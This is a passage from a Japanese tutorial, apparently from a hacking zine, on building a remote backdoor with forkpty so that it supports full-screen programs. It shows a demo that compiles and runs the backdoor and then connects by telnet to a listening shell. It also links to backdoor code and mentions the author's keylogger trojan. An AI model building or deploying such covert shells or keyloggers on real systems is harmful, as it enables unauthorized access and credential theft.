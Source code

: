 　recv()は、サーバ側がオプションを要求するとクライアントがなんらかの返事
をするので、それを空読みしています。本当は、それを調べてオプションが有効
になったのかを判断する必要があるのですが、拒否されることはないだろうとい
うことで空読みです。Linuxのtelnetコマンド、Windowsのtelnet.exe、TeraTerm
のotherモードでは上記の方法でうまく設定することができました。

　実際に試してみます。

-----
$ gcc pty_rbd.c -lutil -o backdoor
$ ./backdoor &
[2] 1782
$ telnet localhost 1876
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
sh-2.05$ id
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$ emacs -nw test.c
..
sh-2.05$ vi test.c
..
sh-2.05$ passwd
Changing password for pain
(current) UNIX password:
New password:
Retype new password:
passwd: all authentication tokens updated successfully
sh-2.05$ exit
Connection closed by foreign host.
[2]-  Done                    ./a.out
-----

　window sizeを設定していないので表示範囲が少し狭かったですが、emacs、vi、
passwdの動作確認は全て成功でした。


■0x07.) 最後に

　今回、単純なリモートバックドアをemacsが使える程度まで改良しました。しか
し、今回取り上げた内容だけでは、サーバとしては役に立たないほど問題が残っ
ています（例えばexitするとサーバごと落ちること）。しかし、それらの情報は
インターネット上のネットワークプログラミングを説明した多くのサイト（Aiko
さんのkenjinet等）で説明されているので、今回は省きました。また、「リモー
トバックドア」としての機能面でもTCPを使っている点などまだまだ多くの問題が
残っています。まだ問題が残っているということは、あなたにも考えるチャンス
があるということです。もし、優れたバックドアが作成できたら・・・俺にください。'-)

　今回使用したサンプルコードと、私が趣味で書いたLinuxとMacOS Xで動くリモ
ートバックドア（TCP Shell）が以下のディレクトリに置いてあります。興味のあ
る方は見てみてください。

http://hex51.darktech.org/wb/200402/

　余談ですが、forkpty(3)は面白い関数なので、遊んでみるとなかなか楽しめま
す。私はこれを利用して、Linux用のKeyLoggerTrojanを作ってみました。
